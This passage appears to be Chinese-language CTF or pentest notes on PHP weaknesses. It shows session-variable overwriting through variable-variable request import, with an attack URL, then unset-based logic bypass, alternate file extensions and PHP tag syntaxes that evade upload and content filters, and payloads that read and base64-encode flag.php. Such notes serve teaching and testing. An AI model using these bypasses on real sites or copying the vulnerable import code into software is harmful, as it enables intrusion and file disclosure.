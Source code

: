 数组类型数据的覆盖

```php
// index.php?_SESSION[userinfo][id]=1&_SESSION[userinfo][username]=admin

foreach (array('_COOKIE','_POST','_GET') as $_request)  
{
    foreach ($$_request as $_key=>$_value)  
    {
        $$_key=  $_value;
    }
}

echo $_SESSION["userinfo"]["id"];
echo '<br>';
echo $_SESSION["userinfo"]["username"];
```

但是如果后面有 session_start() 会重新初始化上面的 $_SESSION 数据，因此又被还原回去。

# unset

unset($bar); 用来销毁指定的变量，如果变量 $bar 包含在请求参数中，可能出现销毁一些变量而实现程序逻辑绕过。

特殊的 PHP 代码格式

以这种后缀结尾的 php 文件也能被解析，这是在 fast-cgi 里面配置的

.php2 .php3 .php4 .php5 .php7 .phtml

正则检测文件内容中包含 <? 就异常退出，通常的PHP代码就不行了，可以使用这种方式绕过

```javascript
# 除了 php 7.0 不允许外，其他都允许
<script language="php">
echo base64_encode(file_get_contents('flag.php'));
</script>
```

如果在 php.ini 文件中配置允许 ASP 风格的标签

```powershell
; Allow ASP-style <% %> tags.
; http://php.net/asp-tags
asp_tags = On
```

则可以使用该方式

```powershell
<% echo 'a'; %>
```

php.ini 文件中配置 short_open_tag 默认为 Off，如果为 On，则允许这种代码

```php
<?  echo base64_encode(file_get_contents('flag.php')); ?>
```
